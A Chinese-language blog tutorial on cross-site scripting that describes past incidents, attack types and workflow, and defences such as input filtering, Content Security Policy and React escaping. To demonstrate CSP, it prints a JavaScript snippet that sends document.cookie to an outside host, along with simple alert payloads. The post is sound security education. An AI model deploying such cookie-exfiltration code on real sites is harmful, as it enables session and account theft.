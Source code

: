 title: XSS攻击那些事儿
date: 2017-10-21
tags: XSS
categories: 编程

keywords: 前端完全, XSS
-----------------------------
&nbsp;&nbsp;&nbsp;&nbsp;2011年4月30，人人站内信遭受XSS攻击。造成人人ID、姓名、学校、手机号、QQ泄露
&nbsp;&nbsp;&nbsp;&nbsp;2011年6月28日，新浪微博遭受XSS攻击，微博用户中招后会自动向自己的粉丝发送含毒私信和微博，有人点击后会再次中毒，形成恶性循环

## 一、XSS攻击介绍
### 1.介绍
&nbsp;&nbsp;&nbsp;&nbsp;跨站脚本攻击（Cross Site Scripting）,XSS攻击通常指的是通过利用网页开发时留下的漏洞，恶意攻击者往Web页面里插入恶意Script代码，当用户浏览时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的
### 2.危害
&nbsp;&nbsp;&nbsp;&nbsp;据近些年OWASP(OWASP是世界上最知名的Web安全与数据库安全研究组织)统计XSS占所有web攻击的22%，高居所有web威胁榜首
<!--more-->
* 流量劫持
* 获取用户cookie信息，盗取账号
* 篡改、删除页面信息
* 配合CSRF攻击，实施进一步的攻击
* ······

## 二、XSS攻击类型
![XSS类型](xss_1.png)
### 1.存储型XSS
* 存储型XSS浏览即被触发
![XSS类型](xss_2.png)
### 2.反射型XSS
* 反射型XSS需要欺骗用户操作触发(知乎、京东已经做了转义，没有转义的情况下会被触发)
![XSS类型](xss_3.jpg)
![XSS类型](xss_4.jpg)

## 三、XSS攻击流程
### 1.寻找漏洞
* 留言系统
* 邮件系统
* 评论系统
* 富文本编辑器
上面这些都是XSS攻击的“重灾区”,因为它们都有共同点：
![XSS重灾区](xss_5.png)
### 2.构造攻击代码
![XSS攻击代码](xss_6.jpg)
![XSS攻击代码](xss_7.jpg)
### 3.注入代码
* 抓包获取提交接口信息
![XSS攻击代码](xss_8.jpg)
PS：大家不要去试了，这个漏洞已经被修复了
* Postman 修改提交数据，模拟发送
![XSS攻击代码](xss_9.jpg)
* 验证攻击是否有效
![XSS攻击代码](xss_10.png)
总结，XSS的整个流程大致如下：
![XSS攻击代码](xss_11.png)

## 四、XSS预防
### 1.特殊字符过滤
```html
<script><script>
<style></style>
a，href | events
img，src | events
style=“width: expression(xxx)”
```
推荐引入xss npm模块[http://jsxss.com/zh/index.html](http://jsxss.com/zh/index.html)

```javascript
import xss from ‘xss’;
const html = xss(‘<script>alert(“xss”)</script>’)
```
![特殊字符过滤](xss_12.png)
### 2.引入CSP
&nbsp;&nbsp;&nbsp;&nbsp;内容安全策略(Content  Security Policy)，实质就是白名单制度，开发者明确告诉客户端，哪些外部资源可以加载和执行，大大增强了网页的安全性。
* client设置
```html
<meta http-equiv="Content-Security-Policy" content="default-src *.meituan.com  imeituan://* *.dianping.com 'self' 'unsafe-inline' ‘unsafe-eval' ">
```
* server设置
```javascript
setHeader(‘Content-Security-Policy’, default-src *.meituan.com  imeituan://* *.dianping.com 'self' 'unsafe-inline' ‘unsafe-eval')
```
* CSP浏览器兼容性，安卓和IE支持不太理想
![CSP](xss_13.jpg)
感兴趣的话可以在[http://waimai.meituan.com](http://waimai.meituan.com)和[http://ele.me](http://ele.me)的控制台测试下面代码看看会发生什么
```javascript
function sendCookie(){
 var img = document.createElement('img');
 img.src = 'https://keycode.me?cookie=' + document.cookie;
 document.body.appendChild(img);
 document.body.removeChild(img);
}
sendCookie();
```
并不是预防了XSS，而是预防了XSS更深入的危害。CSP的具体介绍请戳[https://www.w3.org/TR/CSP1/](https://www.w3.org/TR/CSP1/)
### 3.XSS与React
&nbsp;&nbsp;&nbsp;&nbsp;React官方文档是这么说的，JSX Prevents Injection Attacks
* By default, React DOM escapes any values embedded in JSX before rendering them. Thus it ensures that you can never inject anything that's not explicitly written in your application. Everything is converted to a string before being rendered. This helps prevent XSS attacks.[https://facebook.github.io/react/docs/introducing-jsx.html](https://facebook.github.io/react/docs/introducing-jsx.html)
* 但事情也不是绝对的，在利用dangerouslySetInnerHTML注入html时也要注意过滤特殊字符
```javascript
<div dangerouslySetInnerHTML={{__html: `<script>alert(‘XSS’)</script>`}} />
```
